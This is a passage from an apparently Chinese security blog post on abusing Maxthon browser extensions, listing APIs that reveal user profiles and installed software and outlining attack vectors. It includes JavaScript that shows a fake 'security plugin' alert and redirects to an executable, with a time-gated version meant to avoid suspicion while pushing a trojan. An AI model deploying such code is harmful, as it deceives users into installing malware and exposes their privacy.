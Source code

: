 下面是最新版本4.x版本的API：

遨游把之前在maxthon对象下的函数、对象分离在其他地方了（其实还是有，不明白其用意）
```javascript
mx.app.getAvatar()    //获得当前登录用户的头像(data:image/png;base64格式)
mx.app.login()    //判断是否登录了遨游浏览器(登录返回true，没登陆返回false)
mx.app.getProfile()    //获得用户当前的状态(是否登录、uid、用户名称)
mx.app.getSystemLocale()    //获得系统语言(例如：zh-cn)
mx.app.showUserPanel()    //显示用户菜单(相当于点击左上角的头像)
//以上的代码需要事先运行mx.app.user()、mx.app.locale()

clientInformation.plugins     //浏览器支持的插件(可看到用户安装哪些软件)
clientInformation.mimeTypes    //列举出支持的application(可看到用户安装哪些软件)
```
这里针对最后两个API截图看下：

![](/images/browser-plugin-attack-vector/12.png)

![](/images/browser-plugin-attack-vector/13.png)

这些东西写在插件里，获取用户安装了哪些软件轻而易举。基本上是没有隐私可言了。

### 0x3 攻击向量：
***
普通的获取cookies我们就不说了，介绍点其他的。

上面介绍的都是针对浏览器插件对用户进行的攻击，但是攻击的平面都是浏览器。但是谁不想进一步控制用户的电脑权限呢。大致的思路如下：

> 弹窗欺骗用户说需要下载软件，其实是木马程序

> 使用浏览器漏洞进行攻击

> 替换下载链接

#### 0x3.1 弹窗欺骗用户下载软件

这一步很简单，就是一些简单的javascript代码：
```javascript
(function(){    //闭包函数，防止变量污染
    alert("请下载xxx安全插件保障您在此网站的安全");
    location.href = "http://baidu.com/download/xxxx.exe";
})()
```
但是这里不能一直弹窗下载，不然肯定会引起怀疑的，下面我们来进行优化：
```javascript
(function(){    //闭包函数，防止变量污染
    var downDate = new Date();  //获取当前的时间
    var downDateY = String(downDate).split(" ")[3]; //年份
    var downDateM = String(downDate).split(" ")[1]; //月份
    var downDateD = String(downDate).split(" ")[2]; //日期
    var downDateT = String(downDate).split(" ")[4].split(":");  //时间
    if(location.href != "https://baidu.com/"){  //当不是百度时，不执行下面的代码
        return fasle;
    }
    if(downDateY == "2016" && downDateM == "Oct" && downDateD == "28" && downDateT[0] == "21" && downDateT[1] < "30"){
        alert("请下载xxx安全插件保障您在此网站的安全");
        location.href = "http://baidu.com/download/xxxx.exe";
    }
})()
```
真正写的时候，不要像我这么写，我这样写是因为逻辑比较简单，但是代码量比较多。意思是说当当前网站是`https://baidu.com/`时再判断时间是否为2016年10月28号晚上9点到9点半之间，如果是则弹窗让用户下载木马程序。
